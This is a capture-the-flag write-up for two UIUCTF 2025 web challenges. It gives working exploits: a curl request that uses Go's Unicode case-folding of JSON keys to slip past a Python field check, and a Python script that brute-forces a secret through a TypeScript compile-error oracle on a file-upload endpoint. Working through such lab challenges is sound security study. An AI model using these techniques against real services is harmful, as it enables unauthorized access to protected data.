





+++
title = 'UIUCTF 2025 - Shipping Bay, Upload, Upload, and Away'
date = 2025-07-28T20:31:18+05:30
draft = false
tags = ["web","Idontknowwhatimdoingplssendhelp"]
+++

**tl;dr**

+ Writeup for "Shipping Bay" and "Upload, Upload, and Away" from UIUCTF 2025
+ Shipping Bay - utilize Unmarshal unicode parsing behaviour to bypass `supply_type` check
+ Upload, Upload, and Away - Leak flag using compile time error caused with Template Literal Type

<!--more-->

# Introduction

This is a writeup for two challenges that I solved during [UIUCTF 2025](https://ctfd-2025.uiuc.tf/challenges) - Shipping Bay and Upload, Upload, and Away. 

## Shipping Bay
**Challenge points**: 63
**No. of solves**: 64

### Challenge Description
UPS lost my package, so I'm switching to a more reliable carrier.

### Analysis
Let's start by diving into the handout that is provided!

Within the archive, we have a Dockerfile, nsjail.cfg, a few html files, index.py, sample_shipments.py, go.mod and main.go of which index.py and main.go are most important.

Given below is a quick overview of both the files along with a few debugging statements that's not there in the original files which I added for understanding the flow of data between the two programs.
```py
from flask import Flask, render_template, request, redirect, url_for
from data.sample_shipments import SAMPLE_SHIPMENTS
import uuid
import os
import subprocess
import json

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html', shipments=SAMPLE_SHIPMENTS)

@app.route('/new_shipment')
def new_shipment():
    return render_template('new_shipment.html')

@app.route('/create_shipment', methods=['POST'])
def create_shipment():
    print("Form data received:", [(k, v) for k, v in request.form.items()], flush=True)
    #print all form data received
    shipment_data = {k.lower(): v for k, v in request.form.items()}
    print("Received shipment data:", shipment_data,flush=True)

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/app/processing_service/processing_service", json.dumps(shipment_data)]).decode().strip()
    print("Shipment status:", shipment_status, flush=True)
    return redirect(url_for('index', status=shipment_status))

if __name__ == '__main__':
    app.run(debug=True)

```
`index.py` has 3 routes:
+ `/` - serves index.html with sample shipments from sample_shipments.py
+ `/new_shipment` - serves new_shipment.html
+ `/create_shipment` - POST route which accepts multipart-formdata, formats it into json, and and passes it into `processing_service` which is our compiled go binary.

```go
package main

import (
	"encoding/json"
	"fmt"
	"os"
)

type Shipment struct {
	ID          string `json:"id"`
	Destination string `json:"destination"`
	Origin      string `json:"origin"`
	SupplyType  string `json:"supply_type"`
	Weight      string `json:"weight"`
	Status      string `json:"status"`
	Departure   string `json:"departure"`
	Arrival     string `json:"arrival"`
	Priority    string `json:"priority"`
	Vessel      string `json:"vessel"`
}

func sendShipment(shipment Shipment) string {
	if shipment.SupplyType == "flag" {
		if flag, exists := os.LookupEnv("FLAG"); exists {
			return flag
		}
		return "uiuctf{fake_flag}"
	}
	return "oops we lost the package"
}

func main() {
	if len(os.Args) < 2 {
		fmt.Println("Usage: processing_service '<json_string>'")
		os.Exit(1)
	}
	jsonStr := os.Args[1]
	fmt.Println("\nReceived JSON:", jsonStr)
	var shipment Shipment
	err := json.Unmarshal([]byte(jsonStr), &shipment)
	if err != nil {
		fmt.Println("Error parsing JSON:", err)
		os.Exit(1)
	}
	fmt.Printf("\nParsed Shipment: %#v\n", shipment)
	fmt.Println(sendShipment(shipment))
}
```
`main.go` has 2 functions:
+ `main` - which takes json string as command line argument, unmarshals it and passes it into the sendShipment function.
+ `sendShipment` - A very simple function which returns flag is the `shipment.SupplyType == "flag"`.

To get the flag we simply have to send a payload which python server process into json `{"supply_type":"flag"}` and sends to the go binary. Alas, its not so simple - the following part of the python code checks whether `supply_type` is in the json keys of the data it converted from formdata to json and if so, will return 400 bad request.
```py
if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400
```


The first path I explored relied on the fact that `encoding/json` unmarshal function [accepts case-insensitive matches](https://pkg.go.dev/encoding/json#Unmarshal).
> To unmarshal JSON into a struct, Unmarshal matches incoming object keys to the keys used by Marshal (either the struct field name or its tag), preferring an exact match but also accepting a case-insensitive match.

But this ends up being irrelevant because of the following line in the python code.
```py
shipment_data = {k.lower(): v for k, v in request.form.items()}
```
Whatever key value pair we send, the keys are taken, converted into lower case and then put into json. Basically, `SuPpLy_TyPe=flag` would become `{"supply_type":"flag"}`.

The next path was based around json interoperability. Initially, the idea of duplicate keys floated around in my head but based on [this](https://bishopfox.com/blog/json-interoperability-vulnerabilities) blog, both python json library and encoding/json in go has last key preference. Moreover, even if we send duplicate formdata values, request.form.items() will only take the first value corresponding to the key.

### Exploitation
[This](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) blog contains a detailed look into go's parsers, json, xml and yaml but in our case(pun intended), case insensitive key matching in go turned out to be the key to solving the challenge.
> You can even use Unicode characters! In the example below, we’re using ſ (the unicode character named Latin small letter long s) as an s, and K (the unicode character for the Kelvin sign) as a k. From our testing of the [JSON library code](https://cs.opensource.google/go/go/+/master:src/encoding/json/fold.go) that does the comparison, only these two unicode characters match ASCII characters.
[https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching)

The unicode character `ſ` which will be `s` in go will not trigger the python check for "supply_type" and lead to us getting the flag. We just have to include another normal "supply_type" in the formdata with any value other than flag so that python does not throw an error "supply_type" not found.

### Final Exploit
```bash
curl -X POST http://localhost:8000/create_shipment \
  -d 'supply_type=notflag' \
  -d 'ſupply_type=flag'
```

Run the curl with remote url and we get the flag.
> Flag = uiuctf{maybe_we_should_check_schemas_8e229f}

## Upload, Upload, and Away!
**Challenge points**: 189
**No. of solves**: 36

### Challenge Description
Keeping track of all these files makes me so dizzy I feel like I'm floating in space.


[Fix](https://discord.com/channels/722150434566963293/1398465899970822186/1398472552170524673): 
<@&1119722842548871198> `web/Upload, Upload, and Away!` handout Dockerfile does not immediately build & run as-is. This is due to two reasons:
- `index.ts` contains the flag so we delete it and provide the redacted version in `index_provided.ts`
- The infra runs with read-only rootfs plus allowlist of writable paths via tmpfs, so you have permission issues locally but remotely it is not.

Assuming the handout was extracted to `/tmp/challenge`, these command should run the handout locally in docker and it will be similar to what is happening on the remote infra (though remotely we don't run the extra `npx tsc` step during `docker run`):
```bash
$ mv index_provided.ts index.ts; docker build .
[...]
=> => writing image sha256:1f7929ab75b7f3e8afcc6f806bf825dedf62bbf94040d835e534eeefe71d6ad9
$ docker run --rm --read-only --tmpfs /app/images --tmpfs /app/dist:mode=1777 sha256:1f7929ab75b7f3e8afcc6f806bf825dedf62bbf94040d835e534eeefe71d6ad9 sh -c 'npx tsc; npm start'
```


### Exploit
My honest approach to this challenge because [Idontknowwhatimdoingplssendhelp](https://ze-pacifist.github.io/tags/idontknowwhatimdoingplssendhelp/).
1. Ask chatgpt to solve the challenge - it fails
2. Ask gemini to solve the challenge - it fails
3. Ask perplexity to solve the challenge - it fails
4. Quickly skim the code and try to solve - I fail
5. Try out every payload chatgpt tells me to, send output from console log back, repeat
6. Somehow land on a payload which throws error during compilation and shows flag which sparks an idea:
```ts
import { flag } from "../index";

// Cause a type error that includes the flag in the message
const x: never = flag;
```
7. Remember `filecount` from reading code in step 4
8. Prompt - "Since the only leak/sink we have is the filecount thingy, is there any way to check the flag character by character and if true increment the filecount and if not, don't increment the filecount?" - it fails
9. Prompt - "that did not work. it didn't throw an error when i gave wrong characters" - it fails but starts to go in right direction
10. Breakthrough - while testing payload which causes compile time error and payload which does not cause compile time error I observe that filecount is reset to 0 when no error cuz nodemon has restarted the server.
11. Prompt - "ok mannnn.. I think i have got an oracle for leak.... so when i send something that errors our at the server when compiling and then check flagcount i can see it as 1. and then when i upload something that does not error out and check the flagcount, it resets to 0 cuz the server has restarted. so can this be done?" - it works
12. Somehow Get chatgpt to write script and automate this - Success!!!

### Final Exploit
```py
import requests
import string
import time

BASE_URL = "https://inst-c0e7b0350aa8b630-upload-upload-and-away.chal.uiuc.tf/"
ALPHABET = string.ascii_lowercase + "{}_" + string.digits 
# ALPHABET = "abcdstuvxyz"
FLAG = "uiuctf{turing_complete_"

# Burp proxy config
PROXIES = {
    "http": "http://localhost:8080",
    "https": "http://localhost:8080",
}

def generate_ts_payload(guess):
    return f"""
import {{ flag }} from "../index";

type Check = typeof flag extends `{guess}${{string}}` ? true : never;
const test: Check = true;
"""

def upload_ts(payload):
    files = {
        "file": ("index.ts", payload, "application/typescript")
    }
    return requests.post(f"{BASE_URL}/upload", files=files)

def delete_all_files():
    return requests.delete(f"{BASE_URL}/images")

def get_filecount():
    try:
        res = requests.get(f"{BASE_URL}/filecount")
        return res.json().get("file_count", 0)
    except:
        return 0

def try_char(char):
    global FLAG
    guess = FLAG + char
    print(f"[*] Trying: {repr(guess)}")

    payload = generate_ts_payload(guess)
    upload_ts(payload)
    time.sleep(1.5)  # let nodemon restart if successful

    count = get_filecount()
    print(f"    -> filecount = {count}")

    if count == 0:
        FLAG += char
        print(f"[+] Correct guess! Flag so far: {FLAG}")
        return True
    else:
        delete_all_files()
        time.sleep(0.5)
        return False

while True:
    for c in ALPHABET:
        if try_char(c):
            break

```
> Flag = uiuctf{turing_complete_azolwkamgj}

### Analysis
To understand how the exploit works, we have to first take a look at how the challenge is running. Within package.json we can see the following:
```json
"scripts": {
  "start": "concurrently \"tsc -w\" \"nodemon dist/index.js\""
}
```

2 processes are ran at the same time - tsc and nodemon.
+ tsc -w: tsc is typescript compiler. `-w` (Watch mode) tells it to continuously watch for `.ts` source files and if any source file changes, tsc automatically recompiles it into JavaScript in the `dist` folder.
+ nodemon dist/index.js: nodemon is a node.js utility that watches for changes in the file and then restarts server when change is detected.

Within index.ts, we have a route which allows us to upload files and this file upload can be used to trigged a change.
```ts
...
const imagesDir = path.join(__dirname, "../images");
if (!fs.existsSync(imagesDir)) {
  fs.mkdirSync(imagesDir, { recursive: true });
}

const storage = multer.diskStorage({
  destination: function (req, file, cb) {
    cb(null, imagesDir);
  },
  filename: function (req, file, cb) {
    cb(null, path.basename(file.originalname));
  },
});

const upload = multer({ storage });

app.get("/filecount", (req, res) => {
  res.json({ file_count: fileCount });
});

app.post("/upload", upload.single("file"), (req, res) => {
  if (!req.file) {
    return res.status(400).send("No file uploaded.");
  }
  fileCount++;
  res.send("File uploaded successfully.");
});
...
```
Files are being uploaded to /app/dist/images/ but because dist is the folder which is being monitored for changes, we can trigger the compilation of typescript. The only problem is, even if we upload `index.ts`, typescript compiles it not into `dist/index.js` but into `dist/images/index.js`. This file is never being run at any time.

`/upload` also takes the `path.basename` of whatever file name we give so we cannot upload file with name like `../index.ts` to upload into parent directory.

Now we come to the core part of the challenge and we'll start backwards from the exploit.
Ok, so why does it work?
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:3000' -H $'Content-Length: 371' -H $'sec-ch-ua-platform: \"macOS\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'sec-ch-ua: \"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWANkqPdrdWpkY6Xl' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: http://localhost:3000' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://localhost:3000/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    --data-binary $'------WebKitFormBoundaryWANkqPdrdWpkY6Xl\x0d\x0aContent-Disposition: form-data; name=\"file\"; filename=\"index.ts\"\x0d\x0aContent-Type: text/javascript\x0d\x0a\x0d\x0aimport { flag } from \"../index\";\x0d\x0a\x0d\x0a// Only compiles if the flag starts with correct guess\x0d\x0atype Check = typeof flag extends `ui${string}` ? true : never;\x0d\x0aconst test: Check = true;\x0d\x0a\x0a\x0d\x0a------WebKitFormBoundaryWANkqPdrdWpkY6Xl--\x0d\x0a' \
    $'http://localhost:3000/upload'
```
This is what started the entire chain of thought. 
```ts
const x: never = flag;
```
This is a type assignment that will cause a compile-time error because the flag is of type `string` and not `never`.

When we upload this to the server, this is the error we get. Ok but how do we extract the flag?

This is where the `filecount` variable comes into play. Basically, after we uploaded the above file which caused an error if we check filecount, we can see that it is 1. But then if we upload another file which does not cause an error, something like the following, we can observe that the filecount goes back to 0.


This happens because nodemon restarts index.js since a change is detected and this resets the `flagcount` variable to 0.

Now that we have an oracle, all that's left to do is bruteforce the flag character by character to help with that, we can make use of [Template Literal Types](https://www.typescriptlang.org/docs/handbook/2/template-literal-types.html) in typescript.
The following payload I found on [discord](https://discord.com/channels/722150434566963293/1398866105149296771/1399343614689280062) is easier to understand.
```ts
import { flag } from "./index.ts"

type lol = `uiuctf{<guess>${string}}`;

const lel: lol = flag;
```
This type enforces that any value of type `lol` must begin with `uiuctf{<guess>` followed by any string. So we can replace `<guess>` character by character and upload the file and after each upload, check if `filecount` is 0. If its 0 then the character is correct.

In the exploit that chatgpt generated, a variation of the payload is being used along with and extra step of utilizing the delete files endpoint to reset filecount to 0 after each upload and check.
```ts
import { flag } from "../index";

type Check = typeof flag extends `{guess}${string}` ? true : never;
const test: Check = true;
```
Check becomes `true` if type check passes and `never` if typecheck fails. `never` will cause compile time error since `const test: never = true` will error out while `true` will not cause any error.